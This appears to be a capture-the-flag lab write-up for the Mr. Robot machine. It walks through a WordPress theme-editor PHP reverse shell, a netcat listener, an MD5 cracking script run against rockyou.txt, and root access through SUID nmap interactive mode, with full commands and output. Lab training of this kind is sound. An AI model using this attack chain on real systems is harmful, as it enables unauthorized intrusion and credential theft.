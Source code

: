 # **Step 6: Reverse Shell**
!!! note ""

## Reverse Shell via WordPress

### Method 1: PHP Reverse Shell

Uploading a Reverse Shell via WordPress

1. Log in to WordPress Admin:

    - Go to http://192.168.1.226/wp-admin and log in using the credentials you have.

2. Edit the Theme:

    - Navigate to Appearance > Theme Editor.
    - Select the 404.php file or another template file that is likely to be executed.

![alt text](images/theme.jpg)
3. Insert the Reverse Shell Code:

    - Insert a PHP reverse shell code into the 404.php file
    - `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`

![alt text](images/404_template.jpg)
4. Start a Netcat Listener:

    - On the Kali machine, start a netcat listener:`nc -lvnp 4444`

```python linenums="1" hl_lines="2"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...


```
5. Trigger the Reverse Shell:

    - Visit the modified 404.php file in your browser to trigger the reverse shell.

    - `http://192.168.1.226/wp-content/themes/[Twenty-Fifteen]/404.php`

```python linenums="1" hl_lines="9"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [192.168.1.223] from (UNKNOWN) [192.168.1.226] 59344
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:54:06 up  1:38,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
6. Upgrade the Shell

    - Spawn a TTY Shell Using Python: `python -c 'import pty; pty.spawn("/bin/bash")'`

7. Exploring the System

    - Navigate the File System

```python linenums="1" hl_lines="24"
┌──(hcoco1㉿kali)-[~]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [192.168.1.223] from (UNKNOWN) [192.168.1.226] 59344
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:54:06 up  1:38,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ $ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: $: not found
$ $ /bin/sh -i
/bin/sh: 2: $: not found
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ cd /home
cd /home
daemon@linux:/home$ ls -a
ls -a
.  ..  robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -a
ls -a
.  ..  key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ 
```
8. View the Content of key-2-of-3.txt

```bash linenums="1" hl_lines="2"
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ sudo cat key-2-of-3.txt
sudo cat key-2-of-3.txt
[sudo] password for daemon: ER28-0652

Sorry, try again.
[sudo] password for daemon: 

Sorry, try again.
[sudo] password for daemon: 

Sorry, try again.
sudo: 3 incorrect password attempts
daemon@linux:/home/robot$ 

```
9. Switch Users

```bash linenums="1" hl_lines="2"
daemon@linux:/home/robot$ su robot
su robot
Password: ER28-0652

su: Authentication failure
daemon@linux:/home/robot$

```
>ER28-0652 did not work. `password.raw-md5` must be hacked.

10. Crack `password.raw-md5`

```bash linenums="1" hl_lines="3"
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
11. Creating a Python script to crack the hash (on the kali VM)

```bash linenums="1" hl_lines="3"
import hashlib

hash_to_crack = "c3fcd3d76192e4007dfb496cca67e13b"
wordlist_path = "/usr/share/wordlists/rockyou.txt"

with open(wordlist_path, "r", encoding="utf-8", errors="ignore") as file:
    for word in file:
        word = word.strip()
        if hashlib.md5(word.encode()).hexdigest() == hash_to_crack:
            print(f"Password found: {word}")
            break
    else:
        print("Password not found in the wordlist.")


```
12. Runing the python script

```bash linenums="1" hl_lines="9"
┌──(hcoco1㉿kali)-[~]
└─$ ls -l /usr/share/wordlists/rockyou.txt

-rw-r--r-- 1 root root 139921507 May 12  2023 /usr/share/wordlists/rockyou.txt
                                                                                                                                                                                                                           
┌──(hcoco1㉿kali)-[~]
└─$ python3 md5_crack.py                            

Password found: abcdefghijklmnopqrstuvwxyz

```
13. Switch (non root) Users and inspecting `key-2-of-3.txt`

```bash linenums="1" hl_lines="9"

daemon@linux:/tmp/john-1.9.0-jumbo-1/run$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp/john-1.9.0-jumbo-1/run$ cd /home/robot
cat key-2-of-3.txt
cd /home/robot
robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959 # Flag 2 of 3 ✔️
```
14. Finding the last flag `key-3-of-3.txt`

```bash linenums="1" hl_lines="9"
robot@linux:~$ sudo find / -name "key-3-of-3.txt" 2>/dev/null
sudo find / -name "key-3-of-3.txt" 2>/dev/null
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ sudo find / -name "key-3-of-3.txt" 2>/dev/null
sudo find / -name "key-3-of-3.txt" 2>/dev/null
[sudo] password for robot: 

[sudo] password for robot: 

[sudo] password for robot: 

robot@linux:~$ find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null

robot@linux:~$ 
```
>Since we couldn't directly access the third key (key-3-of-3.txt) with the permissions of the robot user, we needed to find a way to escalate your privileges to gain root access.

15.Identifying Privilege Escalation Opportunities

```bash linenums="1" hl_lines="14"
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
16. Identifying nmap with SUID Bit `/usr/local/bin/nmap`.

17.Exploiting nmap for Privilege Escalation
```bash linenums="1" hl_lines="7"
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
```
18. Accessing the Third Key

```bash linenums="1" hl_lines="7"
# find / -name "key-3-of-3.txt" 2>/dev/null
find / -name "key-3-of-3.txt" 2>/dev/null
/root/key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4 # Flag 3 of 3 ✔️
#
```
>By finding a file with elevated privileges (in this case, nmap with the SUID bit set), we were able to exploit it to gain root access and ultimately access the key-3-of-3.txt file. This process of privilege escalation is a common technique in ethical hacking and penetration testing to demonstrate how a lower-privileged user can potentially gain unauthorized access to restricted information.


























### Method 2: Use Metasploit

























<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_1/" class="md-button md-button--primary">Previous: Challenge 1</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/challenge_3/" class="md-button md-button--primary">Next: Challenge 3</a>
</div>